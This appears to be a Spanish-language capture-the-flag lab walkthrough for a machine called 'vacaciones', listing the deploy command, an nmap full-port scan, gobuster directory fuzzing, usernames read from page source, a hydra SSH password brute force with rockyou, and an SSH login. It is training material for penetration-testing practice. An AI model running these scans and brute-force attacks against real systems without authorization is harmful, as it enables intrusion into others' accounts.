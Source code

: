 
DESPLIEGUE

```
bash auto_deploy.sh vacaciones.tar
```

-------------------------------

PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```


------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

![[Pasted image 20240915040316.png]]

Tenemos el puerto 22 y el 80.

Como tenemos el 80 vamos a ver que tiene en la web.

La web no muestra nada. 

Vamos hacer fuzzing con gobuster
 
``` 
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![[Pasted image 20240915040721.png]]

Vamos a porner el directorio `/javascript`

![[Pasted image 20240915040844.png]]

==PERO==

Si vamos a la página principal y miramos el código html 
![[Pasted image 20240915041426.png]]
Tenemos dos nombres.

Camilo y Juan

Pues ya que tenemos los dos usuario vamos a probar con hydra

```
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20240915041931.png]]

Y sólo hace falta para entrar por el puerto ssh 

```
ssh camilo@172.17.0.2
```

Nos da error. Tenemos que poner lo siguiente:

```
ssh-keygen -R 172.17.0.2
```

Volvemos a probar.


![[Pasted image 20240915042410.png]]

Y ya estamos adentro. 

